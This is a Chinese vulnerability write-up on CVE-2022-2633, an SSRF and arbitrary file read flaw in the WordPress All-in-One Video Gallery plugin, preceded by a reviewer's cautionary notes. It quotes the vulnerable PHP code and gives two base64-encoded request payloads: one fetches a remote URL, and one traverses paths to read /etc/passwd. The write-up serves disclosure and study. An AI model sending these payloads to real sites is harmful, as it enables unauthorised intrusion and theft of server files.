






## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;=2.6.0 claimed; video route and downloads enabled/reachable; remote fetching and local read permissions

- **操作与副作用边界（1）**：标题仅文件读但正文还独立SSRF，应做两种原语或核CVE覆盖。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

- **证据待核（2）**：Base64非数字dl分支代码可读，后续URL/path处理与补丁全截图未转文本。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **适用与权限边界（3）**：无鉴权检查/配置前提/安全版本的文本证据；需官方公告。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **证据待核（4）**：两个载荷分别远程网页和本地路径，不能把远程回显直接当任意本地文件证据。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# WordPress All-in-One Video Gallery video.php 任意文件读取漏洞 CVE-2022-2633

## 漏洞描述

WordPress All-in-One Video 插件 Gallery video.php文件中存在SSRF以及任意文件读取漏洞，攻击者通过发送特定的请求包读取任意文件

## 漏洞影响

```
WordPress All-in-One Video Gallery <= 2.6.0
```

## 插件名称

```
All-in-One Video Gallery
```

https://downloads.wordpress.org/plugin/all-in-one-video-gallery.2.6.0.zip

## 漏洞复现

对比漏洞修复的文件找到出现漏洞的文件 wp-content/plugins/all-in-one-video-gallery/public/video.php



这里接收 dl 参数，dl 参数不为 数字类型时，参数将 base64 解码传入

```
		if ( is_numeric( $_GET['dl'] ) ) {
			$file = get_post_meta( (int) $_GET['dl'], 'mp4', true );
		} else {
			$file = base64_decode( $_GET['dl'] );
		}

		if ( empty( $file ) ) {
			die( esc_html__( 'Download file URL is empty.', 'all-in-one-video-gallery' ) );
           	exit;
        }
```



当传入的参数中不存在 http:// 或 https:// 时，参数 $formatted_path 的值改变



当 $formatted_path 为 url 时存在 SSRF漏洞，传入 base64编码 的目标URL就可以得到回显

```
/index.php/video/?dl=aHR0cHM6Ly93d3cuYmFpZHUuY29t
```



看向代码最后的片段，则存在任意文件读取漏洞



```
/index.php/video/?dl=Li4vLi4vLi4vLi4vLi4vLi4vZXRjL3Bhc3N3ZA==
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
